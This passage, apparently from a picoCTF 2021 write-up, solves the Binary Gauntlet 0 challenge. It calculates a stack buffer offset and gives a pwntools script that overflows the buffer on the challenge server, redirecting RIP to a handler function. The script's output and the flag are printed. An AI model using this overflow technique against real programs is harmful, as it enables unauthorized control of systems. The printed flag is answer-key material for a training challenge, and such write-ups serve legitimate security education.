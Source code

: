 ```RIP``` address is ```0x7fffffffdf48``` and the buffer started from ```0x7fffffffdec0```, the offset is ```0x7fffffffdf48-0x7fffffffdec0=0x88```.

So we need to fill the buffer started from ```0x7fffffffdec0```, Add padding bytes and override the ```RIP``` with ```0x4008c7``` which is the address of ```sigsegv_handler``` function.

So let's write simple python code to get the flag against the server:
```python
from pwn import *

payload='A'*(0x88 + 9) + p64(0x4008c7)

p = remote('mercury.picoctf.net', 64629)

print("Sending AAAA")
p.sendline("AAAA")
print(p.recv())
print("Sending payload...")
p.sendline(payload)
print("Flag:")
print(p.recv())
```

Run it:
```console
┌─[evyatar@parrot]─[/pico2021/BinaryGauntlet0] 
└──╼ $python binaryGauntlet0.py 
[+] Opening connection to mercury.picoctf.net on port 64629: Done
Sending AAAA
AAAA

eb39fb2d49b9579031ed4822a6ee7892


[*] Closed connection to mercury.picoctf.net port 64629
```

And the flag is ```eb39fb2d49b9579031ed4822a6ee7892```.